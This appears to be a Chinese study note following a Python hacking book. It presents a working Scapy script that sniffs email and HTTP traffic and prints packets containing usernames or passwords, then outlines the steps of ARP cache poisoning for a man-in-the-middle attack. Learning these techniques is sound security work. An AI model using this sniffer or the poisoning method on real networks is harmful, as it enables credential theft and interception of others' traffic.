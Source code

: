 ![](https://raw.githubusercontent.com/hdfzzf/Figurebed/main/imgs/20220617155430.png)

解析来，将上述的代码进行修改，我们只需要嗅探跟Email有关的分组，并且获得里面的信息。

```python
from scapy.all import *  
from scapy.layers.inet import TCP, IP  
  
def packet_callback(packet):  
    if packet[TCP].payload:  
        mypacket = str(packet[TCP].payload)  
        if 'user' in mypacket.lower() or 'pass' in mypacket.lower():  
            print(f"[*] Destination: {packet[IP].dst}")  
            print(f"[*] {str(packet[TCP].payload)}")  
  
def main():  
    # 110 POP3, 143 IMAP, 25 SMTP  
    sniff(filter='tcp port 110 or tcp port 25 or tcp port 143 or tcp port 80', prn=packet_callback, store=0)  
  
if __name__ == '__main__':  
    main()
```

这里的 filter 涉及到 BRF syntax（也叫做 Wireshark style），这里的意思是：只需要tcp协议，并且端口为110，25，143的分组，这三个端口是Email相关的协议使用的端口。然后打印出目标IP和用户名密码。

但是现在基本没有明文传输的，除非自己搭建服务，因此这里添加一个80端口看一下效果

![](https://raw.githubusercontent.com/hdfzzf/Figurebed/main/imgs/20220617221053.png)

因为HTTP协议中有一个 User-Agent 所以能够满足条件从而打印 payload

书中的结果如下图：

![](https://raw.githubusercontent.com/hdfzzf/Figurebed/main/imgs/20220617222600.png)

# 2. ARP 缓存投毒
原理其实就是两边骗：

1. 欺骗目标主机，使其相信我们的攻击主机就是它的网关
2. 欺骗网关，使其相信我们就是目标主机

>ARP缓存投毒只针对 IPv4

需要具备1个条件：

- 攻击主机和目标主机处于同一个网络，也就是网关相同
- 知道目标 IP 和网关 IP

过程：

1. 根据目标 IP 和网关 IP 分别获得目标主机的 MAC 地址和网关的 MAC 地址。`get_mac` 函数中实现
2. 不停的分别给目标主机发送 ARP 响应分组（op=2），给网关发送 ARP 响应分组（op=2）。`Arper.poison()` 方法中实现
3. 不停的监听网卡，当收到 IP 地址为目标主机的分组（可能是网关发的，也可能是目标主机发的），说明目标主机/网关的 ARP 缓存表已被更新，投毒成功，并将包的内容写入到 arper.pcap。 `Arper.sniff()` 方法中实现
4. 成功接收 100 个分组之后停止投毒。发送正确的 ARP 响应分组来恢复 ARP 缓存表。`Arper.restore()` 方法中实现
